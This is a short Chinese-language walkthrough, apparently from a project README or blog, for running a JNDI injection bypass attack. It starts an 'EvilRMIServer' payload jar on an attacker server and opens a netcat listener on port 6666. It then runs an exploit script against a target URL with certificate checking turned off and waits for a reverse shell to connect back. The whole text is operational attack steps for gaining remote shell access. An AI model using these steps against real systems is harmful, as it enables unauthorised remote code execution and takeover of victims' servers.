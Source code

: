 


### 2. jar运行

上传完成后运行

```bash
# java -cp JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer 服务器IP
```

* -cp 指定运行的目标 然后需要输入服务器的IP
* `payloads.EvilRMIServer`：指定执行的类
* 服务器IP：设置的rmi服务器的IP



那么此时：

* rmi服务器端的地址为：`服务器IP:2020`
* 然后tcp连接的地址为：`服务器I:6666`





### 3. 端口监听

服务器监听端口：6666

```bash
# nc -lvp 6666
```





### 4. exp运行

然后运行exp

```cmd
# python3 exp2.py http://xxxxx:xxxx
```



当提示目标证书错误时，解决办法：

修改exp代码

```python
rep = req.post(url, json=i,verify=False) // 使用post 发送数据
```

`verify=False`，就是用来关闭验证的！！

之后可以正常运行



### 5. 接收反弹shell



等待反弹shell即可
